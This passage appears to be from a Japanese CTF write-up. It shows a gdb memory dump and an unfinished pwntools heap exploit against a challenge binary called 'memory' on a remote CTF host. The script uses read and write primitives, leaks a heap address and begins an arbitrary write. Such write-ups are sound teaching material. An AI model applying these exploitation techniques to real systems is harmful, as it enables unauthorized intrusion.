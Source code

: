 ```
0x55555555b3b0:	0x0000000000000000	0x00007ffff7e90b95
0x55555555b3c0:	0x00007ffff7dc504f	0x000055555555d000
0x55555555b3d0:	0x00007ffff7eb8241	0x0000000000000080
0x55555555b3e0:	0x0000000000000000	0x00007ffff7e020d9
0x55555555b3f0:	0x00007ffff7de6400	0x0000000000000001
0x55555555b400:	0x00007ffff7dc2b72	0x0000000000000001
0x55555555b410:	0x00007ffff7e020d9	0x742e67616c662f2e
0x55555555b420:	0x0000000000007478	0x0000000000000000
0x55555555b430:	0x0000000000000000	0x0000000000000000
```

## Exploit code:
Exploitコードは下記になります。
```python
from pwn import *

context(os='linux', arch='amd64')
#context.log_level = 'debug'

BINARY = './memory'
context.binary = elf  = ELF(BINARY)

if len(sys.argv) > 1 and sys.argv[1] == 'r':
  HOST = "20.216.39.14"
  PORT = 1235
  s = remote(HOST, PORT)
  libc = ELF("./libc.so.6")
else:
  s = process(BINARY)
  #s = process(BINARY, env={'LD_PRELOAD': './libc-2.23.so'})
  libc = elf.libc
  
def Read(where):
  s.sendlineafter(">> ", "1")
  s.sendlineafter(">> ", hex(where)) 

def Write(where, data):
  s.sendlineafter(">> ", "2")
  s.sendlineafter(">> ", hex(where)) 
  s.sendlineafter(">> ", hex(data))
  
def Alloc(size, data): 
  s.sendlineafter(">> ", "3")
  s.sendlineafter(">> ", str(size)) 
  s.sendafter(">> ", data)
  
def Free():
  s.sendlineafter(">> ", "4")

def View():
  s.sendlineafter(">> ", "5")

Alloc(0x10, "\n")
View()
heap_leak = u64(s.recv(6)+b"\x00\x00")
heap_base = heap_leak - 0x220a
print("heap_leak =", hex(heap_leak))
print("heap_base =", hex(heap_base))

Alloc(1100, "A"*4)
Free()
Write(heap_base+0x20a0, heap_base+0x1ef0)
```